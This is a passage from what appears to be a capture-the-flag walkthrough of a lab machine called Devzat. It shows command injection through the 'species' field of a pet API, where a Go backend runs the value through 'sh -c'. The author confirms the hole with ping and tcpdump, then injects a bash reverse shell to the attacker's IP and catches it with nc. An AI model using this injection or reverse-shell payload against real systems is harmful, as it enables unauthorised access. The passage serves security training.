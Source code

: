 ```

oxdf@hacky$ curl -X POST http://pets.devzat.htb/api/pet -d '{ "name": "0xdf",  "species": "cat; ping -c 1 10.10.14.9" }' -H "'Content-Type': 'application/json'"
Pet was added successfully

```

This will make the Go goes run:

```

cmd := exec.Command("sh", "-c", "cat characteristics/cat; ping -c 1 10.10.14.9")

```

I’ll have `tcpdump` listening when I send that, and it gets an ICMP packet back immediately:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:25:55.580905 IP 10.10.11.118 > 10.10.14.9: ICMP echo request, id 2, seq 1, length 64
14:25:55.580926 IP 10.10.14.9 > 10.10.11.118: ICMP echo reply, id 2, seq 1, length 64

```

### Shell

To convert this to a reverse shell, I’ll just change the `ping` to a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

oxdf@hacky$ curl -X POST http://pets.devzat.htb/api/pet -d '{ "name": "0xdf",  "species": "cat; bash -c \"bash -i >& /dev/tcp/10.10.14.9/443 0>&1\"" }' -H "'Content-Type': 'application/json'"

```

With `nc` listening, sending that just hangs. At `nc`, there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.118.
Ncat: Connection from 10.10.11.118:51448.
bash: cannot set terminal process group (865): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ 

```

I’ll upgrade my shell with `script`:
